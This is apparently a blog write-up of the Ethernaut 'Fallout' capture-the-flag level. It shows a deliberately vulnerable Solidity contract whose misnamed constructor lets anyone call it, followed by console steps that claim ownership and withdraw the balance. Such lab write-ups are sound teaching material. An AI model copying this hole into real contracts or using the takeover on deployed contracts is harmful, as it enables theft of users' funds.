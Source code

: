 ```yaml
---
layout: post
title: Ethernaut - 2.Fallout
date:  2022-08-24
tags: ethernaut solidity
---
```


## Difficulty: 🌕🌑🌑🌑🌑
> Claim ownership of the contract below to complete this level.<br /><br />
  Things that might help 
  - Solidity Remix IDE

## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

## Writeup
1. Get new instance
2. Call the method
    ``` javascript

    await contract.owner()
    
    ```
    to check contract owner, it return address 0x0000000000000000000000000000000000000000.
3. Call the method
    ``` javascript

    await contract.allocatorBalance(YOUR_ADDRESS).then(v=>v.toString())

    ```
    to check balance, it will return zero.
4. Call the method
    ``` javascript

    await contract.Fal1out({ value: toWei("0.00001") })

    ``` 
5. Call method `allovatorBalance` again like step3, we can see out balance become 10000000000000 now.
6. Call the method
    ``` javascript

    await contract.collectAllocations()

    ```
7. Submit instance ξ( ✿＞◡❛)